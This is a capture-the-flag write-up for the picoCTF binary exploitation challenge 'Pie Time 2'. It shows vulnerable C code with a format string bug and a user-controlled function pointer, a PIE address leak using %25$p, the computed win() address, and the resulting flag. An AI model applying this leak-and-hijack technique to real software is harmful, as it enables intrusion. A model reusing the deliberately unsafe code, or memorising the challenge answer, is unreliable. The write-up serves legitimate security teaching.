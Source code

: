 # [Pie Time 2 (Binary Exploitation, Medium)](https://play.picoctf.org/practice/challenge/491) - PIE, arbitrary function pointer call / control flow hijack
- Description: Can you try to get the flag? I'm not revealing anything anymore!!
 - `vuln.c`
 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <signal.h>
 #include <unistd.h>
 
 void segfault_handler() {
   printf("Segfault Occurred, incorrect address.\n");
   exit(0);
 }
 
 void call_functions() {
   char buffer[64];
   printf("Enter your name:");
   fgets(buffer, 64, stdin);
   printf(buffer);
 
   unsigned long val;
   printf(" enter the address to jump to, ex => 0x12345: ");
   scanf("%lx", &val);
 
   void (*foo)(void) = (void (*)())val;
   foo();
 }
 
 int win() {
   FILE *fptr;
   char c;
 
   printf("You won!\n");
   // Open file
   fptr = fopen("flag.txt", "r");
   if (fptr == NULL)
   {
       printf("Cannot open file.\n");
       exit(0);
   }
 
   // Read contents from file
   c = fgetc(fptr);
   while (c != EOF)
   {
       printf ("%c", c);
       c = fgetc(fptr);
   }
 
   printf("\n");
   fclose(fptr);
 }
 
 int main() {
   signal(SIGSEGV, segfault_handler);
   setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
 
   call_functions();
   return 0;
 }
 ```
 - Hint 1: What vulnerability can be exploited to leak the address?
 - Hint 2: Please be mindful of the size of pointers in this binary
 - Solution:
  - C program with a format string vulnerability, an arbitrary function call via a user-supplied address, a PIE (Position Independent Executable) enabled (function addresses change every run)
  - Goal: Call hidden `win` function to print the flag
  - `printf(buffer);`: User input is directly passed to `printf`, allowing memory leaks using format specifiers like `%p`
  - `void (*foo)(void) = (void (*)())val;`: User controls `val`, which is cast to a function pointer and called (allowing arbitrary code execution if you supply a valid function address)
  - Leak PIE address (of `main`) using the format string: `%25$p`
  ```bash
  schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 59092
  Enter your name:%25$p
  0x63e485ca3400
   enter the address to jump to, ex => 0x12345:
  ```
 - Calculate address of `win()`: win = main - 0x96 = 0x63e485ca3400 - 0x96 = 0x63e485ca336a
  ```bash
   enter the address to jump to, ex => 0x12345: 0x63e485ca336a
  You won!
  picoCTF{p13_5h0u1dn'7_134k_9650b792}
  ```
- Flag: `picoCTF{p13_5h0u1dn'7_134k_9650b792}`
- Explanation:
